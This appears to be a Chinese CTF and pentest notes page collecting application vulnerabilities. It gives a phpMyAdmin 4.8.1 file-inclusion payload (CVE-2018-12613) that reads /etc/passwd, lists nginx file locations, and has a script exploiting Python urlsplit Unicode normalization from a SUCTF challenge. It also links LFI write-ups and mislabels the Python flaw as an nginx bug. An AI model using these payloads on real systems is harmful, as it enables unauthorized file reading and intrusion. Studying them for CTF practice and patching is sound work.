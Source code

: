 不同应用的漏洞

[TOC]



# phpmyadmin4.8.1

cve-2018-12613-PhpMyadmin后台文件包含

payload:

```undefined
target=db_datadict.php%253f/../../../../../../../../etc/passwd
```

[cve-2018-12613-PhpMyadmin后台文件包含 - 简书 (jianshu.com)](https://www.jianshu.com/p/fb9c2ae16d09)

[【首发】phpmyadmin4.8.1后台getshell (qq.com)](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485036&idx=1&sn=8e9647906c5d94f72564dec5bc51a2ab&chksm=e89e2eb4dfe9a7a28bff2efebb5b2723782dab660acff074c3f18c9e7dca924abdf3da618fb4&mpshare=1&scene=1&srcid=0621gAv1FMtrgoahD01psMZr&pass_ticket=LqhRfckPxAVG2dF/jxV/9/cEb5pShRgewJe/ttJn2gIlIyGF/bsgGmzcbsV%2bLmMK#rd)



##### NGINX,nginx

配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
配置文件目录为：/usr/local/nginx/conf/nginx.conf

[[SUCTF 2019\]Pythonginx_pythonginx urlsplit-CSDN博客](https://blog.csdn.net/m0_53314778/article/details/113730543)

**urlsplit**

这个是ngnix的一个漏洞，

```
CVE-2019-9636：urlsplit 不处理 NFKC 标准化
CVE-2019-10160：urlsplit NFKD 标准化漏洞

漏洞原理：
用 Punycode/IDNA 编码的 URL 使用 NFKC 规范化来分解字符。可能导致某些字符将新的段引入 	URL。
例如，在直接比较中，\ uFF03不等于'＃'，而是统一化为'＃'，这会更改 URL 的片段部分。类似地，\ u2100 统一化为'a/c'，它引入了路径段。

```

脚本

```
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
 
def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
 
 
if __name__=='__main__':
    get_unicode()


```

###### php7 LFI

[--------已搬运--------[NPUCTF2020\]ezinclude - 文件包含 --- php7 漏洞 --。string.strip_tags SegmentFault_php漏洞 php://filter/string.strip_tags/resource=/etc-CSDN博客](https://blog.csdn.net/Zero_Adam/article/details/115271448?ops_request_misc=%7B%22request%5Fid%22%3A%22170894971216777224429249%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170894971216777224429249&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-3-115271448-null-null.142^v99^pc_search_result_base1&utm_term=[NPUCTF2020]ezinclude&spm=1018.2226.3001.4187)

